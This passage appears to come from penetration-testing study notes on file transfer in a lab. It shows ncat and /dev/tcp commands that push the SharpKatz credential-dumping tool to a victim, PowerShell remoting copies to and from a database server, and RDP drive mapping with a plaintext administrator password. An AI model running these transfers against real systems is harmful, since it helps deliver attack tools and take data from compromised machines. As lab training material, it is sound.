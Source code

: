 `XeroCyb3r@htb[/htb] sudo ncat -l -p 443 --send-only < SharpKatz.exe`

`victim@target:~ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe`

**OR**

`victim@target:~ cat < /dev/tcp/192.168.49.128/443 > <filename>`

# PowerShell Session File Transfer

By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

### From DC01

`PS C:\htb> whoami`

`PS C:\htb> hostname`

`PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985`

`PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01`

Copy samplefile.txt from our Localhost to the DATABASE01 Session

`PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`

Copy DATABASE.txt from DATABASE01 Session to our Localhost

`PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session`

# RDP

RDP (Remote Desktop Protocol) is commonly used in Windows networks for remote access.

`XeroCyb3r@htb[/htb] rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'`

`XeroCyb3r@htb[/htb] xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`

To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

Alternatively, from Windows, the native [mstsc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc) remote desktop client can be used.

# Protected File Transfers

Many different methods can be used to encrypt files and information on Windows systems. One of the simplest methods is the [Invoke-AESEncryption.ps1](https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions%5CInvoke-AESEncryption.ps1) PowerShell script. This script is small and provides encryption of files and strings.
